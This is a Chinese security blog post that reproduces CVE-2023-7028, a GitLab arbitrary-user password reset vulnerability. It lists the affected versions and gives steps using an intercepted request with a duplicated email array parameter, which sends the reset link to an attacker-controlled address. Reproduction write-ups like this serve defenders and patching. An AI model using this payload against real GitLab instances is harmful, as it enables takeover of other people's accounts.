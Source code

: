 #  漏洞复现 | CVE-2023-7028 GitLab 任意用户密码重置   
evilc0de  白帽子左一   2024-01-13 12:01  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFJNibV2baHRo8G34MZhFD1sjTz4LHLiaKG9208VTU6pdTIEpC9jlW6UVfhIb9rHorCvvMsdiaya4T6Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
GitLab 任意用户密码重置漏洞（CVE-2023-7028）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSGHFk1RSofNibFRyIUIj52nRM8d0hR5eiaHRAbHkkSdJ9mdjsfaY4jGO1vf9LVXLRb5icZMRQvyAPrtg/640?wx_fmt=jpeg "")  
  
漏洞概述  
<table><tbody style="outline: 0px;"><tr style="outline: 0px;"><td valign="middle" align="center" rowspan="1" colspan="4" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);background-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1.5em;"><span style="outline: 0px;color: rgb(255, 255, 255);letter-spacing: 0px;"><strong style="outline: 0px;"><span style="outline: 0px;font-size: 13px;letter-spacing: 0px;">漏洞概述</span></strong><br style="outline: 0px;"/></span></p></td></tr><tr style="outline: 0px;"><td valign="middle" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;letter-spacing: 0px;"><strong style="outline: 0px;"><span style="outline: 0px;letter-spacing: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">漏洞名称</span></strong></span></p></td><td valign="middle" align="left" rowspan="1" colspan="3" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;caret-color: red;letter-spacing: 0px;">GitLab 密码重置漏洞</span></p></td></tr><tr style="outline: 0px;"><td valign="middle" align="left" rowspan="1" colspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;">漏洞编号</strong></span></span></p></td><td valign="middle" align="left" rowspan="1" colspan="3" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 13px;caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">CVE-2023-7028</span></p></td></tr><tr style="outline: 0px;"><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="outline: 0px;"><span style="outline: 0px;font-size: 13px;"><strong style="max-inline-size: 100%;cursor: text;color: rgb(0, 0, 0);caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;outline: none 0px !important;">公开时间</span></strong></span></strong></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 13px;caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">2024-01-12</span></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="outline: 0px;"><span style="outline: 0px;font-size: 13px;"><strong style="max-inline-size: 100%;cursor: text;color: rgb(0, 0, 0);caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;outline: none 0px !important;">影响量级</span></strong></span></strong></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 13px;caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">十万级</span></p></td></tr><tr style="outline: 0px;"><td valign="middle" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;letter-spacing: 0px;"><strong style="max-inline-size: 100%;cursor: text;color: rgb(0, 0, 0);font-size: 17px;caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-size: 13px;letter-spacing: 0px;outline: none 0px !important;">评级</span></strong></span></p></td><td valign="middle" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;letter-spacing: 0px;"><strong style="max-inline-size: 100%;cursor: text;color: rgb(255, 0, 0);caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-size: 13px;letter-spacing: 0px;outline: none 0px !important;">高危</span></strong></span></p></td><td valign="middle" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="outline: 0px;"><span style="outline: 0px;font-size: 13px;letter-spacing: 0px;">CVSS 3.1分数</span></strong></p></td><td valign="middle" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;color: rgb(255, 0, 0);font-size: 13px;letter-spacing: 0px;"><strong style="outline: 0px;">10.0</strong></span></p></td></tr><tr style="outline: 0px;"><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;">威胁类型</strong></span></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;">身份认证绕过</span></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="max-inline-size: 100%;cursor: text;color: rgb(0, 0, 0);caret-color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-size: 13px;outline: none 0px !important;">利用可能性</span></strong></p></td><td valign="middle" align="left" colspan="1" rowspan="1" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="max-inline-size: 100%;cursor: text;caret-color: rgb(255, 0, 0);color: rgb(255, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, sans-serif;outline: none 0px !important;"><span style="max-inline-size: 100%;cursor: text;font-size: 13px;outline: none 0px !important;">高</span></strong></p></td></tr><tr style="outline: 0px;"><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">POC状态</span></strong></span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;color: rgb(0, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">未公开</span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">在野利用状态</span></strong></span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;color: rgb(0, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">未发现</span></p></td></tr><tr style="outline: 0px;"><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">EXP状态</span></strong></span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">未公开</span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">技术细节状态</span></strong></span></p></td><td valign="middle" colspan="1" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><span style="outline: 0px;font-size: 13px;color: rgb(0, 0, 0);font-family: 微软雅黑, &#34;Microsoft YaHei&#34;;">未公开</span></p></td></tr><tr style="outline: 0px;"><td valign="middle" colspan="4" rowspan="1" align="left" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(70, 118, 217);"><p style="outline: 0px;line-height: 1em;"><strong style="outline: 0px;"><span style="outline: 0px;font-size: 13px;">危害描述：</span></strong><span style="outline: 0px;font-size: 13px;letter-spacing: 0.544px;">成功利用该漏洞可修改任意用户密码。</span></p></td></tr></tbody></table>  
漏洞描述：  
  
2024年1月11日，Gitlab官方披露CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置Gitlab仅对可信地址开放。  
  
漏洞利用条件：  
1、需获取系统已有用户注  
册  
邮箱地址  
2、满足影响版本  
```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2

```  
## 受影响资产情况：奇安信鹰图资产测绘平台数据显示，GitLab 密码重置漏洞(CVE-2023-7028)关联的国内风险资产总数为1406090个，关联IP总数为147705个复现过程  
> 这里被找回邮箱为个人注册邮箱地址，真实环境中需先获取目标邮箱地址  
  
  
访问找回密码页面：/users/password/new  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxFianXElAwFJAeavfcibJFvySh708KXrN6MjveO9V7pEf9GddycebD8iaQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
填写被找回邮箱地址，然后点击抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdx728snBjWMo7ZzuB89HMMQwrbeq6pVQzerdM9vlIOrxL8HEhSnJrGQw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
修改请求包为：user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxIj6yT26g8qW0Gu9nEU7ulJjFNySp7Bg1pM7Hm9V9Y5w6icHPicOdK6QA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
成功复现![](https://mmbiz.qpic.cn/mmbiz_png/vqGv1p3HpTloNO6p17lgRCPNIT7fQbdxNEmPLoGKtaSQJk9ZA9AWekLU8ogJ3uEpJJicScTMohUlvrwvPVnWBYg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
文章作者：Evilc0de 安全团队  
  
声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。**所有渗透都需获取授权**  
！  
  
@  
**学习更多渗透技能！体验靶场实战练习**  
```
```  
  
  
